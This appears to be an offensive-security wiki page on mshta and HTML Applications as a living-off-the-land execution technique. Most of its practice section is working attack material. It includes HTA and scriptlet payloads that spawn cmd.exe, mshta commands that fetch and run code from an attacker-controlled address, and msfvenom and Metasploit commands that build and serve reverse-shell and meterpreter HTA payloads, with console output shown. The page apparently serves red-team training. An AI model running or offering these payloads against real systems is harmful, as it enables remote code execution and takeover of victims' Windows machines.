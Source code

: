 # MSHTA

## Theroy

### An HTML Application (HTA)

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.

## Practice

{% tabs %}
{% tab title="Basic HTA" %}
In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.

```bash
#http://10.0.0.5/m.hta
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

We can now execute the script on the target machine

```bash
mshta.exe http://10.0.0.5/m.hta
```
{% endtab %}

{% tab title="scriptlet" %}
Writing a scriptlet file that will launch cmd.exe when invoked:

```bash
#http://10.0.0.5/m.sct
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
	}
]]>
</script>
</scriptlet>
```

We can now execute the script on the target machine

```bash
# from powershell
cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endtab %}

{% tab title="SharpShooter" %}
Using [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter/tree/master), we can create a payload that will retrieve and execute arbitrary CSharp source code (.NET).

```bash
python2 SharpShooter.py --payload hta --rawscfile ~/sharpshooter.raw --dotnetver 2  --output test --stageless
```
{% endtab %}

{% tab title="msfvenom" %}
We can use the msfvenom framework to generate hta files.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f hta-psh -o m.hta
```

We can now execute the script on the target machine

```bash
mshta.exe http://10.0.0.5/m.hta
```
{% endtab %}

{% tab title="metasploit" %}
We can use the metasploit framework to generate hta files and directly serv it throught our webserver.

```bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37
LHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set LPORT 443
LPORT => 443
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37
SRVHOST => 10.8.232.37
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) >
[*] Started reverse TCP handler on 10.8.232.37:443
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta
[*] Server started.
```

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution" %}
